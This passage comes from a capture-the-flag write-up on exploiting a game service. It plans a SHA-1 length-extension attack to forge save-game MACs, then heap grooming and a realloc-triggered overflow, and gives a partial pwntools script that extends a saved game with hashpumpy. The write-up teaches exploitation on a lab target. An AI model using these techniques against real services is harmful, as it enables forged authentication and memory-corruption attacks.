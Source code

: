 In our setting we have `MAC = SHA-1(secret || game)` so `data` = `secret ||
game`, which means that `len(data)` is *not* known.  However, we know from
reversing that `len(secret)` is at most 255 bytes, so the actual length can be
found by trial and error.

### We have a plan!

Now that we've build an arsenal of primitives we can put down a plan of attack.
It goes like this:

1. Obtain a game with a valid MAC.
1. Find length of secret key by trial and error.
1. Prepare the heap for exploitation.
1. Trigger the `realloc` bug.
1. Use a hash extension attack to overflow a heap buffer.
1. ...
1. PROFIT!

#### Step 1

This step is very easy; we just start a new game and save it.  Done.

#### Step 2

If we append any data to a saved game it will load just fine as long as the MAC
checks out.  So we just try appending fake padding until we find the length of
`secret_key`.  There are a number of extension attack implementations available
online, e.g. [`hashpumpy`](https://pypi.org/project/hashpumpy/).

In the following, `hashpump` is a function that takes `old_hash` (hex encoded),
`old_data`, `extra` and `len_key` such that `len(key)` = `len_key` and
`SHA-1(key || old_data)` = `old_hash`, and returns `new_hash` (also hex encoded)
and `new_data` such that `SHA-1(key || new_data)` = `new_hash` and `new_data`
starts with `old_data` and ends with `extra`:

```.py
from hashpumpy import hashpump
from pwn import *

def mksock():
    return remote('possible.ctf', 1337)

# Obtain saved game
sock = mksock()
sock.sendline(b'1') # new game
sock.sendline(b'1') # easy
sock.sendline(b'4') # save game
sock.recvuntil(b'safe place:\n')
# Base 64 is split over two lines
save = sock.recvline().strip()
save += sock.recvline().strip()
sock.close()

# Extend saved game
def extend(extra):
    old_save = b64d(save)
    old_hash, old_data = old_save[:20], old_save[20:]
    new_hash_hex, new_data = hashpump(old_hash.hex(), old_data, extra, len_key)
    new_hash = bytes.fromhex(new_hash_hex)
    new_save = new_hash + new_data
    return b64e(new_save).encode()

# Load a saved game
def load(extra):
    sock.sendline(b'2') # load game
    sock.recvuntil(b'Enter saved game')
```
